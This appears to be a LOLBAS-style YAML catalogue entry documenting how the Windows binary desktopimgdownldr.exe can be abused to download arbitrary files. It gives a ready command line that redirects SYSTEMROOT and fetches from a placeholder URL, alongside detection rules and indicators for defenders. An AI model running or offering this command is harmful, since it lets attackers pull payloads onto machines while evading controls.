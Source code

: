 ```yaml
---
Name: Desktopimgdownldr.exe
Description: Windows binary used to configure lockscreen/desktop image
Author: Gal Kristal
Created: 2020-06-28
Commands:
  - Command: set "SYSTEMROOT=C:\Windows\Temp" && cmd /c desktopimgdownldr.exe /lockscreenurl:{REMOTEURL} /eventName:desktopimgdownldr
    Description: Downloads the file and sets it as the computer's lockscreen
    Usecase: Download arbitrary files from a web server
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: c:\windows\system32\desktopimgdownldr.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_desktopimgdownldr_susp_execution.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/file/file_event/file_event_win_susp_desktopimgdownldr_file.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/82ec6ac1eeb62a1383792719a1943b551264ed16/rules/windows/command_and_control_remote_file_copy_desktopimgdownldr.toml
  - IOC: desktopimgdownldr.exe that creates non-image file
  - IOC: Change of HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\PersonalizationCSP\LockScreenImageUrl
Resources:
  - Link: https://labs.sentinelone.com/living-off-windows-land-a-new-native-file-downldr/
Acknowledgement:
  - Person: Gal Kristal
    Handle: '@gal_kristal'
---
```

